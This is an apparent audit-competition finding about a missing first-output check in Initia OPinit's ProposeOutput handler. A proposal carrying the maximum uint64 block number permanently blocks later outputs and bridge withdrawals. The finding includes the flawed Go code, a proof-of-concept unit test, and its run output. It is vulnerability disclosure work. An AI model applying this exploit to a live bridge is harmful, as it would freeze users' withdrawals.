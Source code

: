 ```yaml
---
title: "Initia: Missing outputIndex == 1 validation in ProposeOutput allows a bridge-withdrawal DoS"
date: "2025-06-19"
description: "Initia: Missing outputIndex == 1 validation in ProposeOutput allows a bridge-withdrawal DoS"
tags: ["Cosmos", "Initia", "Audit Competition", "DOS"]
---
```


# Initia: Missing outputIndex == 1 validation in ProposeOutput allows a bridge-withdrawal DoS

## Summary

**OPinit** supplies an output-host (`ophost`) module that lets any Rollup/L2 chain post its **Output Proposals** (state roots, assertions, …) to Initia L1:

1. The **proposer** submits an Output Proposal for a given L2 height to the L1 contract (implemented in-chain by the ophost keeper).
2. A **challenger** is given a challenge window to dispute the proposal.
3. If no valid challenge appears, the proposal finalizes after a delay; only then can funds flow between L1 and L2 (e.g. user withdrawals).

Because anyone can spin up a bridge instance and choose arbitrary proposers / challengers, ophost must treat both roles as untrusted.

`x/ophost/keeper/msg_server.go::ProposeOutput` enforces monotonic growth of the L2 block number: for every proposal **except the very first one** it checks that `l2BlockNumber` is greater than the previous proposal’s value.

Unfortunately, **no extra check is performed when `outputIndex == 1`**. A malicious proposer can therefore submit

```go
outputIndex = 1
l2BlockNumber = 2^64 − 1   (math.MaxUint64)
```

After that, every future (legitimate) proposal—whose `l2BlockNumber` must be < 2^64-1—fails the monotonicity check and is rejected.

The output queue is permanently blocked and all bridge withdrawals (and any logic that relies on new outputs) become impossible.

```go
func (ms MsgServer) ProposeOutput(ctx context.Context, req *types.MsgProposeOutput) (*types.MsgProposeOutputResponse, error) {
    ...
    outputIndex, err := ms.IncreaseNextOutputIndex(ctx, bridgeId)
    ...
    // first submission?
    if outputIndex != 1 {                            // <—
        lastOutputProposal, err := ms.GetOutputProposal(ctx, bridgeId, outputIndex-1)
        ...
        if l2BlockNumber <= lastOutputProposal.L2BlockNumber {   // <—
            return nil, types.ErrInvalidL2BlockNumber.Wrapf("last %d, got %d",
                    lastOutputProposal.L2BlockNumber, l2BlockNumber)
        }
    }
    ...
}
```

## Proof-of-concept

A single proposal with `outputIndex = 1` and `l2BlockNumber = math.MaxUint64` is enough to brick the bridge. The snippet below replaces the existing `Test_ProposeOutput`:

```go
func Test_ProposeOutput(t *testing.T) {
    ctx, input := createDefaultTestInput(t)
    ms := keeper.NewMsgServerImpl(input.OPHostKeeper)

    // 1. create bridge with proposer = challenger = addrsStr[0]
    ...
    require.Equal(t, uint64(1), createRes.BridgeId)

    // 2. submit poisoned output
    _, err = ms.ProposeOutput(ctx,
        types.NewMsgProposeOutput(addrsStr[0], 1, /*outputIndex*/
                                   1,            /*version*/
                                   math.MaxUint64,
                                   largeByteSlice))
    require.NoError(t, err)

    // 3. any follow-up proposal now fails
    _, err = ms.ProposeOutput(ctx,
        types.NewMsgProposeOutput(addrsStr[0], 1, 2, math.MaxUint64, largeByteSlice))
    t.Logf("Expected failure: %v", err)   // “invalid l2 block number”
}
```

Run:

```bash
go test -v -timeout 30s -run ^Test_ProposeOutput$ github.com/initia-labs/OPinit/x/ophost/keeper
```

Output:

```go
--- PASS: Test_ProposeOutput (0.00s)
    msg_server_test.go:91: Expected failure: last 18446744073709551615, got 18446744073709551615: invalid l2 block number
```

The test shows that once the MAX_UINT64 proposal is accepted, subsequent outputs are forever rejected, effectively causing a withdrawal DoS.
